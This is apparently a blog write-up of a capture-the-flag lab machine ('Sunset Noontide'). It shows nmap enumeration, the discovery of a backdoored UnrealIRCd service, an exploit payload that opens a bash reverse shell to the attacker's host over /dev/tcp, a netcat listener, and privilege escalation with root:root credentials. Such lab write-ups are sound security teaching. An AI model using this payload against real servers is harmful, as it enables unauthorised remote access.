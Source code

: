 ```yaml
---
layout: post
author: H4
---
```


Vulnhub source  
[Details](https://www.vulnhub.com/entry/sunset-noontide,531/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn 192.168.156.120                                                                                                                                                                                                            1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:38 EST
Nmap scan report for 192.168.156.120
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6667/tcp open  irc

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds
```

```bash
$ nmap -Pn -p6667 -sV 192.168.169.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 16:18 EST
Nmap scan report for 192.168.169.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

Only an `IRC` service could be identified.

---

# exploitation
## scan for vulnerabilities
```bash
$ nmap -Pn -p6667 --script="irc*" 192.168.156.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:39 EST
Nmap scan report for 192.168.156.120
Host is up (0.025s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

```bash
$ searchsploit unrealirc backdoor
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                              | linux/remote/16922.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> The installed `IRC` server seems to be backdoored!
{: .prompt-info}

Reviewing the source code of the `metasploit` module reveals that a simple payload can be used to access the backdoor.  
![image](/images/sunsetnoontide1.png)

## get reverse shell
payload: ```AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'```

### start listener on attacking machine
```bash
$ nc -lvp 80  
listening on [any] 80 ...
```

### trigger backdoor
```bash
$ nc 192.168.156.120 6667                             
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80  
listening on [any] 80 ...
192.168.156.120: inverse host lookup failed: Unknown host
connect to [192.168.49.156] from (UNKNOWN) [192.168.156.120] 48232
bash: cannot set terminal process group (396): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server
```

---

# post exploitation
## get first flag
```bash
server@noontide:~$ cd /home/server
server@noontide:~$ ls
ls
irc
local.txt
server@noontide:~$ cat local.txt
cat local.txt
4******************************9
```

## privilege escalation

> The account `root` uses wek credentials: `root:root`.
{: .prompt-info}

```bash
server@noontide:~/irc/Unreal3.2$ su root
root@noontide:~/irc/Unreal3.2# whoami
whoami
root
```

---

## second flag
```bash
root@noontide:/tmp# cd /root
cd /root
root@noontide:~# ls
ls
proof.txt
root@noontide:~# cat proof.txt
cat proof.txt
3******************************2
```

Pwned! <@:-)
